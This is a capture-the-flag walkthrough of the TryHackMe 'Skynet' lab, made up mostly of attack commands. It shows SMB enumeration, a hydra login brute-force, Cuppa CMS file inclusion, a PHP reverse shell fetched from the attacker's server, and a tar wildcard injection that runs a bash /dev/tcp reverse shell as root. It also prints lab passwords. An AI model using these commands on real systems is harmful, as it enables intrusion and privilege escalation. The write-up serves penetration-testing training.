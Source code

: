 # Skynet

**Room Link:** [https://tryhackme.com/room/skynet](https://tryhackme.com/room/skynet)

```
nmap -A 10.10.13.172
```

<figure><img src="../../.gitbook/assets/image (2) (3) (1).png" alt=""><figcaption></figcaption></figure>

```
smbclient -L //10.10.13.172
```

<figure><img src="../../.gitbook/assets/image (13) (2) (1).png" alt=""><figcaption></figcaption></figure>

```
smbget -R smb://10.10.13.172/anonymous
cat logs/log* | sort | uniq  > passwords.txt 
```

<figure><img src="../../.gitbook/assets/image (39) (1).png" alt=""><figcaption></figcaption></figure>

There is also an email from Miles Dyson, as it's just his name I tried different varations of his name for a username. There is a folder on samba that could be the username as well, milesdyson.&#x20;

<figure><img src="../../.gitbook/assets/image (5) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (4).png" alt=""><figcaption><p>username.txt</p></figcaption></figure>





```
gobuster dir 10.10.13.172 -u http://10.10.13.172 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

<figure><img src="../../.gitbook/assets/image (34) (1) (1).png" alt=""><figcaption></figcaption></figure>



```
hydra -l milesdyson -P passwords.txt 10.10.13.172 http-post-form "/squirrelmail/src/login.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F incorrect" -V -F -u
```

<figure><img src="../../.gitbook/assets/image (27) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can now login to squirrelmail that gobuster discovered.

<figure><img src="../../.gitbook/assets/image (10) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (9) (3) (2).png" alt=""><figcaption></figcaption></figure>

Downloaded all the files from the milesdyson folder on smb.

```
smbget -R smb://10.10.13.172/milesdyson -U milesdyson
Password: )s{A&2Z=F^n_E.B`
```

<figure><img src="../../.gitbook/assets/image (32) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (35) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
gobuster dir 10.10.13.172 -u http://10.10.13.172/45kra24zxs28v3yd/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

None of the passwords worked or default credentials for cuppa.

<figure><img src="../../.gitbook/assets/image (17) (1) (1).png" alt=""><figcaption></figcaption></figure>

Found an exploit for cuppa LFI/RFI

```
searchsploit cuppa
searchsploit -x php/webapps/25971.txt
```

<figure><img src="../../.gitbook/assets/image (33) (1) (1).png" alt=""><figcaption></figcaption></figure>

Testing LFI and it works

```
http://10.10.13.172/45kra24zxs28v3yd/administrator//alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we will try RFI to get a reverse shell

**Kali #1**&#x20;

Create PHP reverse shell then host the file

<figure><img src="../../.gitbook/assets/image (3) (3) (3).png" alt=""><figcaption></figcaption></figure>

```
python2 -m SimpleHTTPServer 81
```

**Kali #2**

```
nc -lvnp 1337
```

**Browser**

```
http://10.10.13.172:81/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.10.243.233/revshell.php
```

<figure><img src="../../.gitbook/assets/image (18) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

There is a backup script that is ran every minute by root which backs up /var/www/html

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (31) (1).png" alt=""><figcaption></figcaption></figure>

****

<figure><img src="../../.gitbook/assets/image (11) (1) (2) (2).png" alt=""><figcaption></figcaption></figure>

**Victim**

We can use the following from gtfo to create a reverse shell. The checkpoint argument lets us run a command before the files are tar'd so we will create a reverse shell in /var/www/html and then the commands will execute when the folder is tar'd next.

****

**Exploit Link:** [https://gtfobins.github.io/gtfobins/tar/](https://gtfobins.github.io/gtfobins/tar/)

```
printf '#!/bin/bash\nbash -i >& /dev/tcp/10.10.243.233/1338 0>&1' > /var/www/html/shell
chmod +x /var/www/html/shell
touch /var/www/html/--checkpoint=1
touch /var/www/html/--checkpoint-action=exec=bash\ shell
```

**Kali**

```
nc -nvlp 1338
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

There is a password in the configuration file, it does not work for root but we see in the home directory another user called jjameson

```
cat /var/www/html/configuration.php
```

<figure><img src="../../.gitbook/assets/image (37) (1).png" alt=""><figcaption></figcaption></figure>

We can login as jjameson&#x20;

```
su jjameson
Password: nv5uz9r3ZEDzVjNu
```
